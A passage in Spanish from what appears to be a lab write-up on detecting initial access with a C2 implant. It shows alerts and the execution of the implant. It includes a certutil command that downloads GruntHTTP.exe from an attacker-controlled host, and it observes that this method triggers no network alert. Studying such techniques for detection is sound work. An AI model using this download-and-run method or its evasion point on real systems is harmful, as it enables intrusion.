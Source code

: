 Y una segunda alerta, la conexión entre ambos equipos

![image009.png](/uploads/InitialAccess/image009.png)


Tenemos otras opciones para descargar el fichero, como puede ser certutil

`certutil.exe -urlcache -split -f http://192.168.2.14:8000/GruntHTTP.exe grunt.exe`


![image010.png](/uploads/InitialAccess/image010.png)


Como vemos los procesos son diferentes, a diferencia, no se llega a crear una alerta de network.



### Ejecución

En este paso, ejecutaremos el binario con el objetivo de obtener una conexión entre ambos equipo y también, para ver que información estamos generando.

Se nos genera la siguiente información:

![image011.png](/uploads/InitialAccess/image011.png)
